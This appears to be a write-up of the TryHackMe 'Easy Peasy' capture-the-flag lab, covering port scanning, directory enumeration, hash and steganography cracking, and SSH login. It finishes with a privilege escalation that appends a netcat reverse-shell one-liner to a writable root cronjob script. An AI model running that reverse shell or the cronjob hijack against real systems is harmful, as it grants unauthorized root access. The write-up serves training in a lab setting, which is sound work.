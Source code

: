 # Easy Peasy Writeup

## TASK 1 [Enumeration with Nmap]
We'll start our enumeration process by running an nmap scan. However, I will actually be using rustscan, as it has a few extra performance bells and whistles that I prefer. So, we'll run this command: rustscan -a 10.10.153.96 -- -sC -sV -oA 10.10.153.96 -v -A
with this command, we get these results:

PORT      STATE SERVICE REASON  VERSION  
80/tcp    open  http    syn-ack nginx 1.16.1  
| http-methods:   
|_  Supported Methods: GET HEAD  
| http-robots.txt: 1 disallowed entry   
|_/  
|_http-server-header: nginx/1.16.1  
|_http-title: Welcome to nginx!  
6498/tcp  open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf5hzG6d/mEZZIeldje4ZWpwq0zAJWvFf1IzxJX1ZuOWIspHuL0X0z6qEfoTxI/o8tAFjVP/B03BT0WC3WQTm8V3Q63lGda0CBOly38hzNBk8p496scVI9WHWRaQTS4I82I8Cr+L6EjX5tMcAygRJ+QVuy2K5IqmhY3jULw/QH0fxN6Heew2EesHtJuXtf/33axQCWhxBckg1Re26UWKXdvKajYiljGCwEw25Y9qWZTGJ+2P67LVegf7FQu8ReXRrOTzHYL3PSnQJXiodPKb2ZvGAnaXYy8gm22HMspLeXF2riGSRYlGAO3KPDcDqF4hIeKwDWFbKaOwpHOX34qhJz  
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN8/fLeNoGv6fwAVkd9oVJ7OIbn4117grXfoBdQ8vY2qpkuh30sTk7WjT+Kns4MNtTUQ7H/sZrJz+ALPG/YnDfE=  
|   256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICNgw/EuawEJkhJk4i2pP4zHfUG6XfsPHh6+kQQz3G1D  
65524/tcp open  http    syn-ack Apache httpd 2.4.43 ((Ubuntu))  
| http-methods:   
|_  Supported Methods: OPTIONS HEAD GET POST  
| http-robots.txt: 1 disallowed entry   
|_/  
|_http-server-header: Apache/2.4.43 (Ubuntu)  
|_http-title: Apache2 Debian Default Page: It works  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

How many ports are open? [3]

What is the version of nginx? [1.16.1]

What is running on the highest port? [Apache]

## TASK 2 [Compromising the Machine]
Before continuing, lets download the easypeasy.txt file provided to us, as it may be useful. Upon opening it, we see its a wordlist of passwords! I'm sure we'll need this later. Now continuing with the excersize...
Since we see an obvious http server on the machine, we can run gobuster to scan for any directories that may be hidden on the server. We'll do that with this command: gobuster dir -u http://10.10.153.96/ -w /usr/share/wordlists/dirb/common.txt -o dirs.log
Where dir indicates directory mode, -u [url] -w [wordlist] -o [outputfile]
with this scan, we find two files and a directory:
/hidden               (Status: 301) [Size: 169] [--> http://10.10.153.96/hidden/]
/index.html           (Status: 200) [Size: 612]                                  
/robots.txt           (Status: 200) [Size: 43] 
The homepage is just a welcome screen indicating a successful server installation. Obviously, there is going to be more to this box than that.
First, lets check out the robots.txt file and see if there's anything off about it.
User-Agent:*
Disallow:/
Robots Not Allowed

A fairly normal robots.txt file... lets check that directory. /hidden gives us this picture:
![lost-places-1928727_960_720](https://user-images.githubusercontent.com/93058891/152861022-0d899765-34ee-44ef-be5f-293a3b6dad85.jpg)
However, I'm going to ignore the picture for now asnd instead run another gobuster scan on the /hidden directory with this command: 
gobuster dir -u http://10.10.153.96/hidden -w /usr/share/wordlists/dirb/common.txt -o dirsh.log 
results find two items:
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] [--> http://10.10.153.96/hidden/whatever/]

Visiting this directory gives us this image:
![norway-772991_960_720](https://user-images.githubusercontent.com/93058891/152862426-d37fc980-24d8-4207-bb45-77076e5ccf27.jpg)
But worse, the title text tells us "dead end". I guess we'll investigate these pictures now. We'll start by simply inspecting the source code of the pages. The first looks normal, but on the second one, we find this...

<p hidden="">ZmxhZ3tmMXJzN19mbDRnfQ==</p>

Let's use Cyberchef to decode it. Putting the text inside the HTML into Cyberchef gives us our first flag!

Let's now move on to the other http server on the machine. To do this, just add :65524 to the end of the IP in the URL. The homepage of the site is an Apache default page. Let's run another gobuster scan on this server like this, with the port in the url: 

gobuster dir -u http://10.10.153.96:65524/ -w /usr/share/wordlists/dirb/common.txt -o dirs6.log

Nothing of note other than a robots.txt file. This one looks a little different though:

User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions

That second User-Agent looks like a hash. Trying the usual sites doesn't seem to yield a result, though. With enough research, we are able to find a site that cracks it. The result is the second flag! Now if we want to find the third flag, we can just inspect the source of the page on the 65524 port to find it.

The exercise hints at a hidden directory but gobuster failed to find anything. So let's inspect the source code. In the source, we find this line: 
<p hidden>its encoded with ba....:REDACTED</p>

This looks like an encrypting algorithm. Using the hint provided by the code, we eventually find the directory. Visiting the directory takes us to this screen:
![matrix-3109795_960_720](https://user-images.githubusercontent.com/93058891/154327480-ba5d1ebb-4f6a-4ba8-a836-dbefcdd7b01b.jpg)  
Being just another image, we'll inspect the source code. In it, we find this interesting line:    
<p>9[REDACTED]1</p>  
Using Cyberchef, we determine that this is likely a SHA-256 hash. We'll bruteforce it with the easypeasy.txt file. We'll use this command:   
john --wordlist=easypeasy.txt --format=gost hash.txt   
The end result provides us with a password!  
With the password, wi then look through the directory to find a jpg file. We'll crack it using steghide. Upon Cracking, we find a secrettext.txt file. lets open that. The file contains a username and a binary encoded password. Let's decode it! 
Now with the username and password in hand, lets login with ssh:    
ssh -p 6498 boring@10.10.66.29  
Now inside the box, we find the user.txt file in the home directory. Something seems wrong with it though...  
User Flag But It Seems Wrong Like It's Rotated Or Something  
synt{REDACTED}  
We'll use a Caesar Cipher to crack the code. Upon cracking, we get the flag!  
Now all thats left is the root flag. First, I'll check sudo -l:  
Sorry, user boring may not run sudo on kral4-PC.  
Darn, thought I had something there. Looking at the tryhackme challenge page, it says the box has a vulnerable cronjob. So let's run:    
cat /etc/crontab   
SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  
  
m h dom mon dow user  command  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
  
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh  

I think we found it. Let's check if it's writeable. We go to the www directory and find:  
boring@kral4-PC:/var/www$ ls -la  
total 16  
drwxr-xr-x  3 root   root   4096 Jun 15  2020 .  
drwxr-xr-x 14 root   root   4096 Jun 13  2020 ..  
drwxr-xr-x  4 root   root   4096 Jun 15  2020 html  
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh  

It is! This means we can use it to spawn a root shell using netcat. We'll edit the fie with this command:  
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.92.60 4445 >/tmp/f" >> /var/www/.mysecretcronjob.sh 
Now on our own machine we type:  
nc -lvnp 4445  
This should give us a root shell. Once we're in, all we need to do is run:  
cat /root/.root.txt  
And we get the flag!





























